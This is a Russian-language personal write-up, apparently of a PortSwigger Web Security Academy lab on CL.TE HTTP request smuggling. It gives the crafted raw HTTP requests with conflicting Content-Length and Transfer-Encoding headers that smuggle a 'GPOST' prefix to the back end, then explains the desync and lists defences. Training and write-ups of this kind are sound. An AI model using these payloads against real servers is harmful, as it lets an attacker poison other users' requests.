

лаба https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

задание:
Чтобы решить проблему lab, переадресуйте запрос на внутренний сервер, чтобы следующий запрос, обработанный внутренним сервером, отображался с использованием этого метода `GPOST`.


- Фронтенд  - не поддерживает чанки, слушается только Content-Length
   
- Бэкенд (сервер) - понимает Transfer-Encoding и обрабатывает чанки
-----


вот ориг запрос
```http
GET / HTTP/2
Host: 0a09008603aefc1c81e599fb00cd0037.web-security-academy.net
Cookie: session=h6VfOAFBkXmUe6dZXZnFy7orXvXzSBOW
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
ответ 200 на 8к+байт

-----

добавляю заголовки
Content-Type: application/x-www-form-urlencoded // - это тип данных (MIME-тип) данные из HTML-формы, закодированные

Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
++ меняю протокол запроса на HTTP
++ меняю на  POST

-----

итого чистый запрос
```http
POST / HTTP/1.1
Host: 0ab2008904bb8714800f536e003800a2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Transfer-Encoding: chunked

```

теперь буду работать с этой базой, добавяляя в параметры разную нагрузку


--------

test запрос
```http
POST / HTTP/1.1
Host: 0ab2008904bb8714800f536e003800a2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Transfer-Encoding: chunked


GPOST / HTTP/1.1         
Content-Type: application/x-www-form-urlencoded
Content-Length: 8

rrrrr
0

```
ответ 400 "Protocol error

------------

то есть сначала нужно сделать чтобы фронт пропустил запрос 
и если он случает CL - значит нужно сделать такую нагрузку , чтобы в нее входила часть которую срвер примет за чанки, то есть нужно в начале указать ноль 0 - чтобы
сервер принял его за конец чанков этого запроса - и чтобы остаток запроса прикрепился к чужому запросу

```http
POST / HTTP/1.1
Host: 0ab2008904bb8714800f536e003800a2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
ответ 504 - значит ошибка от сервера уже идет!
```http
HTTP/2 421 Misdirected Request
Content-Length: 12

Invalid host
```
------------

получилось!
мой затык был чисто техническим
1 я пока тыкал первый запрос - то сервер лаб умер и выдавал всегда 504
2 после перезапуска - я не поставил автоматически чтобы стоял протокол HTTP/ 1
(так как если даже вписать вручную - то он атоматически меняется при запросе - и все ломает!)

поэтому нужно в инспекторе всегда менять на http/1  и метод POST - иначе все плохо




запрос
```http

POST / HTTP/1.1
Host: 0a7100f5036c9c42813baccf00ec0071.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Transfer-Encoding: chunked

0

GXXXuuu          
```
ответ
```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 31

"Unrecognized method GXXXUPOST"
```
лаба решена!
нужно еще  Content-Length: 6 - и тогда в ответе будет  "Unrecognized method GPOST"  - как и требуется в лабе

хорошо видно - сколько символов приклеиваются к следующему запросу!

------------

#### мини вывод

взлом получился из-за того что фронтенд и бэкенд по-разному понимают где заканчивается запрос

фронтенд слушается content-length и обрезает запрос по нему, а бэкенд слушается transfer-encoding и видит там ноль

из-за этого часть моего запроса остается в буфере соединения и приклеивается к следующему

когда я отправил второй запрос, бэкенд обработал сначала то что висело в буфере и получился метод gpost или вообще GXXXUPOST

был втык из-за того я забыл поменять протокол на /1

#### как защититься 

нужно чтобы фронтенд и бэкенд использовали одинаковые правила

лучше всего отключить http/1.1 и использовать http/2 где нет такой путаницы

если это невозможно то нужно настроить сервер так чтобы он отклонял любые запросы где есть одновременно content-length и transfer-encoding

также важно чтобы все серверы в цепочке поддерживали последние патчи безопасности

